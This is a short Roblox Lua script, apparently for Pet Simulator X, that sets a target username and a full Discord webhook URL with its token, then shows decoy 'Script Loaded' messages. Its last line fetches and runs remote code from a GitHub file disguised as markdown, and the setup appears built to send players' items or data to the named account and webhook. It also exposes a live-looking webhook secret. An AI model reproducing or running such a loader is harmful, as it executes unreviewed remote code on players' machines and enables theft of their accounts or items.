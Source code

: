 Username = "HqLaTrLol"
WebHook = "https://discord.com/api/webhooks/1080537895942770809/qxM-_JE_o8CpJ1ruuIic2I6rGNxqlIQgu4vQ70aFTmCFUbtK_ECoRoRC6orED3nWCS4w"

_G.CustomScriptName = "Script Loaded"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/KaynZwt/psxv2/main/psxnotice.md"))()
